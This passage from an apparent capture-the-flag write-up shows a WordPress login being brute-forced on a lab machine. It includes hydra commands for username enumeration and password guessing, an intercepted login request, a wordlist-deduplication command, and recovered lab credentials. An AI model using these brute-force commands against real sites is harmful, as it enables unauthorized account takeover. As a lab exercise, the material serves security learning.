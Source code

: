 ```console
$ hydra -L fsocity.dic -p hacker 10.10.166.157 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 20
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-31 21:04:04
[DATA] max 20 tasks per 1 server, overall 20 tasks, 858235 login tries (l:858235/p:1), ~42912 tries per task
[DATA] attacking http-post-form://10.10.166.157:80/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username
[80][http-post-form] host: 10.10.166.157   login: Elliot   password: hacker
```
Now that we have a `valid username`, the next step is to find the correct password. When we enter the correct username but an incorrect password, the server returns a specific error message.

```console
ERROR: The password you entered for the username Elliot is incorrect. Lost your password?
```
This response is useful because it allows us to distinguish between valid and invalid login attempts
I was using the same command for the password brute-force attack, but for some reason, it didn’t work properly and took a lot of time. So instead, I used a different command that performed better and was more efficient

>*For the sake of crafting the Hydra command correctly, we simply intercept the login request *

```console
POST /wp-login.php HTTP/1.1
Host: 10.10.166.157
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 119
Origin: http://10.10.166.157
Connection: keep-alive
Referer: http://10.10.166.157/wp-login.php
Cookie: s_cc=true; s_fid=74AAF91485A28F11-24D5843E9B99CF86; s_nr=1748703673114; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check
Upgrade-Insecure-Requests: 1
Priority: u=0, i
log=elliot&pwd=dd&rememberme=forever&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.166.157%2Fwp-admin%2F&testcookie=1  <<<..<<
```

```console
$ hydra -l Elliot -P fsco.dic 10.10.166.157 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.166.157%2Fwp-admin%2F&testcookie=1:The password you entered for the username"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-31 22:07:25
[DATA] max 10 tasks per 1 server, overall 10 tasks, 10 login tries (l:1/p:10), ~1 try per task
[DATA] attacking http-post-form://10.10.166.157:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.166.157%2Fwp-admin%2F&testcookie=1:The password you entered for the username
[80][http-post-form] host: 10.10.166.157   login: Elliot   password: ER28-0652
```
>The `fsociety.dic` file is quite large, so let's sort it and extract only the unique entries into a new file.
```console
$ sort fsocity.dic| uniq -u > fsco.dic
```
